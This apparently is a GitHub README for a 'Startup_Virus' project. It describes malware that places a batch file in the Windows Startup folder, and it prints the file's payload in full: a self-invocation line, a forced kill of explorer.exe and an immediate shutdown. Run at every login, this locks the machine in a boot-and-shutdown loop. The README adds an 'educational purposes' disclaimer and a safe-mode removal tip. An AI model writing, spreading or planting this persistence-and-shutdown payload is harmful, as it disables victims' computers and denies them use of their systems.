 # Startup_Virus

    **Everything was done purely for educational purposes. The spread of viruses is bad! and illegal!**

Simple virus. It is creating .bat file in %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.

You can easily edit it. By default, the file contains the following code: `

system %0 %0 
taskkill /F /IM explorer.exe
shutdown /s /t 1
`.
Then it will shutdown ur computer.

You can defeat this virus by deleting the .bat file in your Startup folder in safe mod.

